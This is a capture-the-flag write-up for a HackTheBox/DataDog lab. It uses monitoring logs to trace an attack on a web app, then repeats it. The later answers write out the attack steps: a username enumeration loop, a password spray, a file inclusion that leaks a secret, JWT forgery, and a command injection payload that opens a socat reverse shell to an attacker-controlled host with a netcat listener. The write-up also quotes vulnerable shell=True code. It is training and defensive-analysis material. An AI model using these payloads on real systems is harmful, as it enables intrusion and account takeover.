

## Q1: I am a...


> For this CTF you are given a Docker Container hosting a website that is monitored by DataDog. Once you spin up the docker container and login at https://app.datadoghq.com/account/login with the credentials provided to you, you can begin exploring the platform. Use the Log Search capability to find the single request with a unusual HTTP Response Code. The flag will be on 

### Solution
In datadogs webpage got to `Logs -> Search` and search for rare occurences of `URL Path` over the last 2 days and you will find **/HTBDDteaparty**  
Open it in the Browser `https://<dockercontainer:port>/HTBDDteaparty` and find the flag


#### Flag
`HTB{i...aM_@_Te@P0t?}`

## Q2: Find the Shell

> The Website is currently under attack! Use the Process Panel to find the IP Address the attacker sent a “Reverse Shell” to.


### Solution
On the DataDog site go to `Infrastructure -> Processes` and select `bash` in the Commands. You will see one process which starts a reverse shell pointing to an IP which is the flag


#### Flag
`98.84.102.18`

## Q3: IP Lineup

> Searching the Event Logs for this IP Address doesn’t reveal anything interesting. This site is run and administered by a group in the United States. Oftentimes web attacks come from functionality of the website that requires an account. Create a Dashboard that displays information about IP Addresses that access the /admin page on the site and find the anomaly. The flag is the IP of the attacker.

### Solution
Again on `Logs -> Search` search for the `URL PATH:/admin`.  
Group it by the Client IP and have a look at the IPs. You find `112.66.249.139` which is the flag.


#### Flag 
`112.66.249.139`

## Q4: Author Enumeration

> Look at the other activities from this IP Address, tracing web requests we can see the attacker performed some reconnaissance by downloading a list of page authors by navigating to /authors/{id} and with that list they attempted to Brute Force their way into the application. What is the last ID the attacker attempted to access.

### Solution
Apply a Filter in the search to only find Events from `Client IP: 112.66.249.139` and `URL Path: *\/author*`.
you can see the attacher tried from `/author/1` to `/author/19` so we have the flag.


#### Flag
`19`

## Q5: Spray!

> Take a walk in the attackers shoes, build a list of usernames and perform a password spray with the password “Summer2021!”. The flag will be displayed on the user’s settings page.

### Solution

Grab a shell and do the same the attacker did. Write a short shell script to feth all user names.
```shell
# for i in {1..19}
> do
> curl -k -s https://<dockercontainer:port>/author/$i | grep -Po "Posts by \K[^<]+"
> done
```

Now you can try to login on the adminpage with evey Username and the password `Summer2021!`.  
Its the user `armando` which fits... and after logging in we see the flag on the settings page.


#### Flag
`HTB{b4d_p@ssw0Rds_m4k3_4_b@d_t1Me}` 

## Q6: Where did they go?

> Examine the pages the attacker accessed, one of the pages behind login is repeatedly getting accessed. What is the page?

### Solution
Again search in the logs what pages are accessed?
Its very often the `/template` page - maybe thats it.... and yes, thats the flag...


#### Flag
`template`

## Q7: Leak it

> This page is vulnerable to a Local File Inclusion. The attacker used this to extract the secret used to sign cookies. The flag for this challenge is that secret.

### Solution
In the Search you can see the attacker tried soething with `/template?display=../routes.py` - lets do it also!  
yeah, there we have the source of `routes.py` and the secret is hard-coded **bingo**



#### Flag
`4yjXrND3j3cre3rTszW70CBv`

## Q8: Forge Ahead
> You have obtained the JWT Secret, now it is possible to forge tokens. Use this to change your role from moderator to administrator. Find the flag on the Admin panel.

### Solution
Now we can extract the JWT from the browser (here chromium was used).  
`Developer Tools -> Application -> Storage -> Cookies -> <https://dockerip:port>`
We now copy the `value` of the auth token and use for example https://jwt.io/ to decode the JWT, modify and resign it with our secret we gained.  
First - enter the token on the website.  
Second - change `"admin": 0` to `"admin": 1`  
Third - enter the secret `4yjXrND3j3cre3rTszW70CBv` from Q7 into the `Verify Signature` field.  
Voila - you have the new token.  
Copy it and change the Value of the auth token in the Developer Tools.  
Now you should be able to access the admin Page  
**DONT DO THIS IN PRODUCTION KIDS - never enter real token on the internet ;)**


#### Flag
`HTB{pR0t3ct_Ur_s3cr3ts!}`

## Q9: Pwned
> The website is vulnerable to command injection, find the vulnerability and gain a shell on the webserver. If you have trouble, go back to the webserver logs and analyze the functionality the attacker was interested in. Find the flag in /root/flag.txt.

### Solution
Searching thu the `routes.py` let us find something intresting in the `/admin` endpoint.  
there is a "backup" option which calls a command in the shell - not very good protected.
```
                p = subprocess.run(f'tar -cf /var/backups/{filename} /srv', shell=True)
                if p.returncode == 0:
                    flash(f'/var/backups/{filename} created')
                else:
                    flash("Something went wrong")
```
The only "check" is if the provided `filename` string end in `.tar` or `.tar.gz` - lets try what we can do.
Search the internet for an example for reverse shells... and find one which does not need some of the "forbitten" characters
```
            if any([c in filename for c in '/\\%{}']):
                flash("Illegal characters in filename")    
```

maybeee.. this will work - this will call <endpoint> on port 4444
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<endpoint>:4444
```

so start a netcat listener on port 4444 on a machine which is reachable over the internet.

```
attacker # nc -v -l -p 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```
Ready to go. Now open the /admin endpoint on the Docker container again and search fod the `Site Backup function`  
There is a text field where you can enter the filename.  
Now lets combine our reverse shell with something to end the `filename` with `.tar`  
Lets enter the following string and press `Submit` ($() to execute the command)
```
$(socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<my_ip>:4444);echo .tar
```

And going back to the listening `netcat` we have a shell!!  


Now we just have to `cd /root` and get the `flag.txt`.  
But wait... there is no flag.txt?  
Okay - here is the description a bit wrong... its _NOT_ `/root/flag.txt` its `/flag.txt`.  
So `cat /flag.txt` and we got Number 9!


#### Flag
`HTB{C0mpromise_Successful}`

## Q10: Busted
> ModSecurity should have reported your reverse shell. What is the filename of the signature?

### Solution
Back into datadog search only for the Service `modsecurity`.  
I added column for modsecurity findings file and there was one filename called `REQUEST-932-APPLICATION-ATTACK-RCE.conf` which was promising. Thats the flag...

#### Flag
`REQUEST-932-APPLICATION-ATTACK-RCE.conf`

## Q11: Process Hog
> Sometime during this engagement, a process hit 50% utilization for a few minutes before ending. What is the process name?

### Solution
In the Infrastructure -> Processes Dashboard you can go back in time... and at one point a process taking lots of cpu cought my attention. The process was called `ccminer` thats the flag.


#### Flag
`ccminer`

## Q12: Not Again!
> Look at your authentication dashboard, there should be another attacker now, what is their IP Address?

### Solution
Take the Search from Q3 and search over the past 2 days look for an other IP... you will find `50.19.13.37` which is the flag.  

#### Flag
`50.19.13.37`

## Q13: Found Them!
> Datadog Cloud Workload Security is running to monitor file and process activities on the box. Find the flag within commands ran by the webserver.

### Solution
As the description of that challenge says - Go to `Security -> Security Signals` Page in DataDog.  
There you find some signals.  
Open the `potential_web_shell` and Got to Event Attributes.  
There you find the `process` and the `args` of that process.


The first argument looks intresting... and the third gives the direct hint - thats base64... so lets decode it
```  
echo "SFRCe0owYl9XM2xsX0RvbmV9" | base64 -d
```
and there is the **final** flag on your terminal!

#### Flag
`HTB{J0b_W3ll_Done}attacker`

What a nice CTF - thank you DataDog & HTB
